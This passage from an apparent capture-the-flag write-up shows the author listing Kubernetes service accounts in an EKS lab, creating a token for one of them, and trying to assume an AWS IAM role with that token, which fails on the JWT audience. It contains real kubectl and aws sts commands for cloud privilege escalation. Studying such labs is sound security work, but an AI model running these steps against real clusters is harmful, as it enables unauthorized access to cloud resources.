 ```
  metadata:
    creationTimestamp: "2023-10-31T20:07:11Z"
    name: default
    namespace: challenge5
    resourceVersion: "671804"
    uid: 77bd3db6-3642-40d5-b8c1-14fa1b0cba8c
- apiVersion: v1
  kind: ServiceAccount
  metadata:
    annotations:
      eks.amazonaws.com/role-arn: arn:aws:iam::688655246681:role/challengeEksS3Role
    creationTimestamp: "2023-10-31T20:07:34Z"
    name: s3access-sa
    namespace: challenge5
    resourceVersion: "671916"
    uid: 86e44c49-b05a-4ebe-800b-45183a6ebbda
kind: List
metadata:
  resourceVersion: ""
```


I tried to create a token for the `s3-access-sa` serviceaccount, this however failed. Creating one for `debug-sa` worked.

```
# kubectl create token s3access-sa

error: failed to create token: serviceaccounts "s3access-sa" is forbidden: User "system:node:challenge:ip-192-168-21-50.us-west-1.compute.internal" cannot create resource "serviceaccounts/token" in API group "" in the namespace "challenge5"
```

```
# kubectl create token debug-sa

VERY_LONG_ACCESS_TOKEN
```

I then tried to assume the role of `eks.amazonaws.com/role-arn: arn:aws:iam::688655246681:role/challengeEksS3Role`.

```
# aws sts assume-role-with-web-identity --role-arn arn:aws:iam::688655246681:role/challengeEksS3Role --role-session-name s3access-sa --web-identity-token VERY_LONG_ACCESS_TOKEN

An error occurred (InvalidIdentityToken) when calling the AssumeRoleWithWebIdentity operation: Incorrect token audience
```

Since the token is in the JWT format, I checked its content and saw that the field `audience` was set to `https://kubernetes.default.svc`. 
